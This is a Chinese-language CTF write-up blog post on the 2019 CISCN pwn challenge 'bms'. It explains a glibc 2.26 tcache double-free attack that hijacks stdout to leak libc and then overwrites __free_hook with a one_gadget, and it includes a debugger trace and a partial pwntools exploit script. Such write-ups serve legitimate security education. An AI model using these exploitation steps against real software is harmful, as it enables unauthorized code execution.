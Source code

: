 ```yaml
---
layout: post
title: "csicn2019国赛pwn --- bms"
date: 2019-04-25
categories: jekyll update
---
```

### csicn2019国赛pwn --- bms
这题居然是tcache，一堆2.23的libc之后，来了个2.26。好吧，之前有做过这种结构体放在heap上的题，也是tcache，一时没反应过来，之后还得去补补tcache的题啊。。

利用思路：这道题的主要漏洞在于利用tcache机制并且free后没有清零造成double free可以实现任意地址写的操作，主要难点在于泄露libc。远端环境是libc2.26，可以使用tcache攻击，利用double free把chunk分配在stdout附近，使tcache bin指向`_IO_2_1_stdout_`。修改结构体泄露libc，再次使用tcache攻击分配chunk到`__free_hook`，劫持为`one_gadget`，调用free获得shell。

难点：tcache机制，利用IO_FILE泄露libc

### 前置知识
+ IO_FILE相关源码：https://code.woboq.org/userspace/glibc/libio/fileops.c.html
+ IO_FILE学习记录：https://zoepla.github.io/2019/04/pwn%E4%B8%AD%E7%9A%84IO_FILE%E4%BB%8E%E5%85%A5%E9%97%A8%E5%88%B0%E6%B7%B1%E5%85%A5/
+ tcache 源码分析及利用思路（推荐阅读）：http://p4nda.top/2018/03/20/tcache/
+ http://tukan.farm/2017/07/08/tcache/
+ http://ftp.gnu.org/gnu/glibc/
+ http://m4x.fun/post/dive-into-tcache/

### tcache学习
+ `tcache`指针指向的是`user_data`而不是`heap_header`
+ 在上面p4nda写的tcache学习中，利用方式的`house_of_spirit`提到`当tcache存在时，释放堆块没有对堆块的前后堆块进行合法性校验，只需要构造本块对齐就可以成功将任意构造的堆块释放到tcache中，而在申请时，tcache对内部大小合适的堆块也是直接分配的，并且对于在tcache内任意大小的堆块管理方式是一样的，导致常见的house_of_spirit可以延伸到smallbin。`正是如此本题可以利用double free(tcache链表劫持)再分配来进行任意地址写。

### 调试过程：
首先通过double free来劫持tcache链表：

```
(0x90)   tcache_entry[7](1): 0x97c4c0 --> 0x602020 --> 0x7fbd97271760 --> 0xfbad2887 (invaild memory)
```

然后当分配到0x602020地方的时候需要修改一个合适的值，我尝试过修改`\x20`或者`\x10`都是没问题的，重点在后面修改`0x7fbd97271760 `的stdout结构体时候的问题，关于为什么这样构造，为什么这样构造就可以泄露出里libc了，后面再说。
对应脚本如下：

```
create(0x80,'aaaa\n','aaaa\n')#0
free(0)
free(0)
create(0x80,p64(0x602020)*2 + "\n","aaaa\n")#1
create(0x80,"\n","aaaa\n")#2

pause()
log.info("hjack stdout struct")
fake_stdout = p64(0xfbad1800) + p64(0)*3 + "\x00" 
create(0x80,"\x20","aaaa\n")#3 
create_null_puts(0x80,fake_stdout,"aaaa\n")#4
```
